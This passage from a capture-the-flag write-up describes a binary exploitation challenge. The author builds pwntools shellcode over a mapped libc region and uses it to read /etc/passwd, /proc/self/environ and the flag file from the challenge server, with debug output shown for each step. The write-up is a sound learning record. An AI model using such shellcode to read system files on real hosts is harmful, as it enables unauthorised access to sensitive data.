One person from [HATS](https://hats.sg/) suggested that I should try a known file like `/etc/passwd`.
```python
create(addr=libc+libc_offset, length=0x1000, prot=7, flags=0x32)
payload = context.libc.get_data()[libc_offset:context.libc.symbols['exit']]
payload+= asm(shellcraft.open(b'/etc/passwd') + shellcraft.readn(4, file_mmap, 10) + shellcraft.write(1, file_mmap, 20) + shellcraft.ret())
read(len(payload), payload)
context.log_level = 'debug'
r.sendlineafter('choice = ', '4')
r.interactive()
```
That worked:
```python
[DEBUG] Sent 0x2 bytes:
    b'4\n'
[*] Switching to interactive mode
[DEBUG] Received 0x14 bytes:
    b'root:x:0:0tialized.\n'
root:x:0:0tialized.
[*] Got EOF while reading in interactive
```
The only issue now is finding out what the name of the flag is. As I asked around in the challenge Discord for the flag location, I got another suggestion to check out `/proc/self/environ`:
```python
HOSTNAME=3820746032cc\x00HLVL=1\x00OME=/root\x00HALL_USER=ctf\x00=/etc/init.d/xinetd\x00ATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\x00HALL_PATH=/home/ctf\x00WD=/home/ctf\x00EMOTE_HOST=94.130.52.180\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```
From there, I guessed the location of the flag at `/home/ctf/flag.txt`:
```python
[*] Switching to interactive mode
[DEBUG] Received 0x14 bytes:
    b'X-MAS{70_m4p_0r_70_u'
X-MAS{70_m4p_0r_70_u[*] Got EOF while reading in interactive
$
```
As I grabbed this, the challenge author, @littlewho, replied to my calls for help<sup>5</sup>, and made a number of edits to the challenge description:
```
Update: The flag is in /home/ctf/flag.txt (and for all other challenges)
```
That confirms that.

With the power of manual bruteforcing<sup>6</sup>, I obtain the final flag with a length of 47:
```python
create(addr=libc+libc_offset, length=0x1000, prot=7, flags=0x32)
payload = context.libc.get_data()[libc_offset:context.libc.symbols['exit']]
payload+= asm(shellcraft.open(b'/home/ctf/flag.txt') + shellcraft.readn(4, file_mmap, 47) + shellcraft.write(1, file_mmap, 47) + shellcraft.ret())
read(len(payload), payload)
context.log_level = 'debug'
r.sendlineafter('choice = ', '4')
r.interactive()
```
